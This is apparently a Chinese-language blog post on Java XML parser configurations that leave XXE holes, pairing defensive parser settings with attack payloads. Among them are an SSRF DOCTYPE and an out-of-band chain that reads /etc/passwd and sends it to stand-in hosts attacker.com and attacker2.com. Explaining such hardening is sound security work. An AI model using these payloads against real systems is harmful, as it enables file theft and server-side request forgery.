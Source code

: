 ```yaml
---
title: "Java XML 解析器配置问题"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:16+08:00
tags: ["java"]
draft: false
---
```


默认情况下，Java 的 XML 解析库都会提供 DTD 处理功能和外部实体功能，这些特性通常
会导致 XXE 漏洞。开发者可以通过禁用这些特性来避免安全问题，但在某些情况下开发者的
配置可能并不完善，不能完全避免所有攻击


## javax.xml.parsers.DocumentBuilderFactory {#javax-dot-xml-dot-parsers-dot-documentbuilderfactory}

DocumentBuilderFactory 类的默认配置如下：

```java
File fXmlFile = new File("Test.xml");
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(fXmlFile);
```

开发者可能使用以下代码禁用外部实体：

```java
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
// OR
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false)
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

由于代码还是会处理 DTD, 可以通过以下 payload 进行 SSRF 攻击：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE myPublicEntity PUBLIC '-//W3C//DTD HTML 4.01//EN'
'http://someIP:4444/IMMUNITY' >
```

要防御 SSRF 攻击需要以下设置：

```java
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
// or disable the DTDs completely
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

另外还要注意一个极具误导性的配置，该配置貌似只能防御 DOS：

```text
dbf.setAttribute(XMLConstants.FEATURE_SECURE_PROCESSING, true);
```


## javax.xml.validation.SchemaFactory {#javax-dot-xml-dot-validation-dot-schemafactory}

SchemaFactory 类通常会这样使用（存在 XXE）：

```java
String filepath = "Test_Schema.xml";
String xmlSchema = new String(Files.readAllBytes(Paths.get(filepath)));

SchemaFactory factory = SchemaFactory.newInstance("http://www.w3.org/2001/XMLSchema");
Schema schema = factory.newSchema(new StreamSource(new StringReader(xmlSchema)));
```

通过以下配置禁用外部实体引用：

```java
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");
```

假如 ACCESS_EXTERNAL_DTD 属性设置成了 file（只允许使用 file 协议），那么 ftp 协
议也依旧能正常使用，因此可以通过以下步骤读取数据：

1.  启动一个 ftp 服务器，在上面放一个恶意文件 evil_ftp.dtd
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % param1 "<!ENTITY send SYSTEM 'file://attacker2.com:5555/%file;'>">
    %param1;
    ```

2.  启动另一个 ftp 服务器用来接收数据

3.  向目标发送恶意 payload, 然后在 2 的 ftp 服务器中可以看到数据
    ```xml
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE data [
      <!ENTITY % dtd SYSTEM  "file://attacker.com:5555/evil_ftp.dtd">
      %dtd;
    ]>
    <data>&send;</data>
    ```

注意：虽然上面的 payload 使用了 5555 端口，但实际请求的依然是默认的 ftp 端口(21)
